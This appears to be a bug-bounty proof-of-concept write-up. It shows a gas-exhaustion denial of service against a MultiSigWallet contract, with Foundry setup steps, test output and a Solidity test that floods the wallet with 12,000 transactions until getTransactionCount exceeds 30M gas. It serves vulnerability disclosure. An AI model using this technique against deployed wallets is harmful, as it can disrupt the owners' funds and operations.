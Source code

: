 
## Proof of concept
You will have to clone the immunefi poc repo and follow the steps below. I had to upgrade the MultiSigWallet code to match solc v0.8.19 compiler in order todo this PoC. Nevertheles, I also tested in Remix using the same compiler (v0.4.26, also using the original code) and the it start reverting at around 1300 txs. Once you run the test, you can see the `gas used` which is above 30M.

- git clone https://github.com/immunefi-team/forge-poc-templates.git
- forge init --template immunefi-team/forge-poc-templates --branch default
- Add the following code in src folder, which is the `MultiSigWallet.sol` contract but upgraded to compile with `Solc 0.8.19`.
- Replace test/PoCTest.sol with the following test.
- forge test -vv --match-test testAttack

```
Running 1 test for test/PoCTest.sol:PoCTest
[PASS] testAttack() (gas: 30451777)
Logs:

>>> Initial conditions: # transaction submitted --> 12000

Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 407.08ms

Ran 1 test suites: 1 tests passed, 0 failed, 0 skipped (1 total tests)
```


```
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "@immunefi/src/PoC.sol";
import "../src/MultiSigWallet.sol";

contract PoCTest is PoC {
    MultiSigWallet public walletContract;
    address constant ownerAccount1 = 0x2385D7aB31F5a470B1723675846cb074988531da;
    address constant ownerAccount2 = 0x0000000000000000000000000000000000000001;

    function setUp() public {
        deal(ownerAccount1, 1 ether);
        deal(ownerAccount2, 1 ether);

        // Deploy attack contract
        address[] memory accounts = new address[](2);
        accounts[0] = ownerAccount1;
        accounts[1] = ownerAccount2;
        walletContract = new MultiSigWallet(accounts, 2);
        
        // add dummy txs
        bytes memory localBytes = new bytes(1);
        for (uint k=0; k<12000; k++) {
            vm.prank(ownerAccount1);
            walletContract.submitTransaction(accounts[0], 0, localBytes);
        }

        uint txcount = walletContract.transactionCount();
        console.log("\n>>> Initial conditions: # transaction submitted -->", txcount);
    }

    function testAttack() public {
        walletContract.getTransactionCount(true, true);
    }
}
```
